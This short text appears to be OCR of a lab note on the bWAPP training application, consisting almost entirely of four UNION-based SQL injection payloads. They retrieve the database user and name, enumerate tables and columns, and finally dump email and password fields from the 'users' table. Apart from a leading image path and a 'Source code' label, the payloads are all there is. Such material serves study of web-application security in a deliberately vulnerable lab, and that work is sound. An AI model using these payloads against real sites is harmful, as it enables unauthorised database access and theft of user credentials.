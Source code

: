 ' union select 1,user(),database(),4,5,6,7# -> bwapp

hello' union select 1,user(),group_concat(table_name),4,5,6,7 from information_schema.tables where table_schema='bwapp'#

hello' union select 1,user(),group_concat(column_name),4,5,6,7 from information_schema.columns where table_schema='bwapp' and table_name='users'##

hello' and 1=0 union select 1,email,password,4,5,6,7 from users#
